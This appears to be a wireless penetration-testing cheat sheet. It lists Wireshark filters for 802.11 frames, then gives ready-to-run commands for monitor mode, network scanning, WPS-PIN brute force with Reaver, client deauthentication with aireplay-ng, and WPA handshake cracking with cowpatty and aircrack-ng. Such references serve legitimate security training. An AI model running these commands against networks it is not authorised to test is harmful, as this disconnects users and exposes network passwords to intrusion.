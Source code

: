 | Wireshark Display Filter | Frame Type |
| --- | --- |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 8)` | Beacon |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 4)` | Probe Request |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 5)` | Probe Response |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 11)` | Authentication |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 0)` | Association Request |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 1)` | Association Response |
| `eapol` | EAPOL (Handshake) |
| `(wlan.fc.type == 0) && (wlan.fc.type_subtype == 12) or (wlan.fc.type_subtype == 10)` | Disassociation ∨ Deauthentication |

# Reconnaissance and Bruteforce

| Command | Description |
| --- | --- |
| `sudo airmon-ng start wlan0` | Enable monitor mode. |
| `sudo airodump-ng wlan0mon` | Scan for available Wi-Fi networks and their associated clients. |
| `sudo airodump-ng wlan0mon -c 1 --wps` | Scan for WPS-enabled Wi-Fi networks (using airodump-ng). |
| `sudo wash -j -i wlan0mon` | Scan for WPS-enabled Wi-Fi networks (using wash + verbose output). |
| `grep -i "84-1B-5E" /var/lib/ieee-data/oui.txt` | See which vendor is associated with an access point, using the first half of the target AP's MAC address. |
| `sudo airmon-ng stop wlan0mon` | Turn off monitor mode. |
| `iw dev wlan0 interface add mon0 type monitor` | Add a new monitor interface (using iw). |
| `sudo ifconfig mon0 up` | Activate the new interface. |
| `sudo reaver -i mon0 -c 1 -b <target_BSSID>` | Perform WPS-PIN bruteforce with Reaver. |

# Cracking MIC (4-Way Handshake)

| Command | Description |
| --- | --- |
| `sudo airmon-ng start wlan0` | Enable monitor mode. |
| `sudo airodump-ng wlan0mon -c 1 -w WPA` | Scan for available Wi-Fi networks and their associated clients, saving the traffic to a capture file. |
| `sudo aireplay-ng -0 5 -a <AP_MAC> -c <client_MAC> wlan0mon` | Perform a deauthentication attack against a connected client. |
| `cowpatty -c -r WPA-01.cap` | Verify the WPA handshake. |
| `cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s <ESSID>` | Crack the PSK from the captured WPA handshake using cowpatty. |
| `aircrack-ng -w /opt/wordlist.txt -0 WPA-01.cap` | Crack the PSK from the captured WPA handshake using aircrack-ng. |
